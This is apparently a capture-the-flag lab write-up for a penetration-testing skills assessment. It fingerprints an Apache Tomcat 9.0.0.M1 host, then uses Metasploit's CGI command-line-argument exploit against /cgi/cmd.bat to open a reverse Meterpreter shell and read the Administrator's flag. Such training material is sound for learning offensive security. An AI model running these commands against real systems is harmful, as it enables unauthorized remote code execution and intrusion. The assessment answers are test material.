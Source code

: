 # Attacking Common Applications - Skills Assessment I

## Objective

During a penetration test against the company Inlanefreight, you have performed extensive enumeration and 
found the network to be quite locked down and well-hardened. You come across one host of particular interest that may be your 
ticket to an initial foothold. Enumerate the target host for potentially vulnerable applications, 
obtain a foothold, and submit the contents of the flag.txt file to complete this portion of the skills assessment.

### Questions

1.  What vulnerable application is running?
2.  What port is this application running on?
3.  What version of the application is in use?
4.  Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.

## Start 

### Enumeration 

```
nmap -sVC -p- --open 10.129.201.89
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-10 12:41 CDT
Nmap scan report for 10.129.201.89
Host is up (0.0077s latency).
Not shown: 61168 closed tcp ports (reset), 4348 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_09-01-21  08:07AM       <DIR>          website_backup
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Freight Logistics, Inc
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-10-10T17:43:05+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=APPS-SKILLS1
| Not valid before: 2025-10-09T17:37:37
|_Not valid after:  2026-04-10T17:37:37
| rdp-ntlm-info: 
|   Target_Name: APPS-SKILLS1
|   NetBIOS_Domain_Name: APPS-SKILLS1
|   NetBIOS_Computer_Name: APPS-SKILLS1
|   DNS_Domain_Name: APPS-SKILLS1
|   DNS_Computer_Name: APPS-SKILLS1
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-10T17:42:57+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8000/tcp  open  http          Jetty 9.4.42.v20210604
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.42.v20210604)
8009/tcp  open  ajp13         Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1   <------------------------ HERE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/9.0.0.M1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-10T17:43:01
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.33 seconds
```
`Application` : Tomcat

`Port` : 8080 

`Version` : 9.0.0.M1

### Exploit 

https://github.com/advisories/GHSA-8vmx-qmch-mpqg

```
$ gobuster dir -u http://10.129.201.89:8080/cgi/ -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt -x .bat -t 50 -k -q
/Cmd.bat              (Status: 200) [Size: 0]
/cmd.bat              (Status: 200) [Size: 0]
```

```
set RHOSTS STMIP
set TARGETURI /cgi/cmd.bat
set LHOST tun0
set FORCEEXPLOIT true
exploit
```

```
$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/windows/http/tomcat_cgi_cmdlineargs
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> set RHOSTS 10.129.201.89
RHOSTS => 10.129.201.89
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> set TARGETURI /cgi/cmd.bat
TARGETURI => /cgi/cmd.bat
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> set LHOST tun0
LHOST => tun0
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> set FORCEEXPLOIT true
FORCEEXPLOIT => true
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> check
[*] 10.129.201.89:8080 - The target is not exploitable.
[msf](Jobs:0 Agents:0) exploit(windows/http/tomcat_cgi_cmdlineargs) >> exploit
[*] Started reverse TCP handler on 10.10.15.146:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The target is not exploitable. ForceExploit is enabled, proceeding with exploitation.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (177734 bytes) to 10.129.201.89
[*] Command Stager progress - 100.00% done (100668/100668 bytes)
[!] Make sure to manually cleanup the exe generated by the exploit
[*] Meterpreter session 1 opened (10.10.15.146:4444 -> 10.129.201.89:49689) at 2025-10-10 12:51:46 -0500
```

```
(Meterpreter 1)(C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi) > cat C:/Users/Administrator/Desktop/flag.txt
f55763d31a8f63ec93XXXXXXXXXXXX(Meterpreter 1)(C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi) >
```

`flag` : f55763d31a8f63ec93XXXXXXXXXXXX





































